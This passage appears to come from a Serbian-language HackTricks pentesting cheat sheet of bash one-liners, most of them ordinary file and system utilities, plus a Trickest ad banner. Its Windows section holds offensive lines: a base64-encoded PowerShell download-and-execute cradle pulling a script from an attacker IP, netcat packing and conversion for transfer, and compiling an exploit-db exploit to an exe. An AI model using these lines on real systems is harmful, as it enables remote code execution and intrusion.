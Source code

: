 ```bash
openssl enc -aes256 -k <KEY> -d -in backup.tgz.enc -out b.tgz

#Count number of instructions executed by a program, need a host based linux (not working in VM)
perf stat -x, -e instructions:u "ls"

#Find trick for HTB, find files from 2018-12-12 to 2018-12-14
find / -newermt 2018-12-12 ! -newermt 2018-12-14 -type f -readable -not -path "/proc/*" -not -path "/sys/*" -ls 2>/dev/null

#Reconfigure timezone
sudo dpkg-reconfigure tzdata

#Search from which package is a binary
apt-file search /usr/bin/file #Needed: apt-get install apt-file

#Protobuf decode https://www.ezequiel.tech/2020/08/leaking-google-cloud-projects.html
echo "CIKUmMesGw==" | base64 -d | protoc --decode_raw

#Set not removable bit
sudo chattr +i file.txt
sudo chattr -i file.txt #Remove the bit so you can delete it

# List files inside zip
7z l file.zip
```
<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da biste lako izgradili i **automatizovali radne tokove** pokretane najnaprednijim alatima zajednice.\
Dobijte pristup danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Bash za Windows
```bash
#Base64 for Windows
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0

#Exe compression
upx -9 nc.exe

#Exe2bat
wine exe2bat.exe nc.exe nc.txt

#Compile Windows python exploit to exe
pip install pyinstaller
wget -O exploit.py http://www.exploit-db.com/download/31853
python pyinstaller.py --onefile exploit.py

#Compile for windows
#sudo apt-get install gcc-mingw-w64-i686
```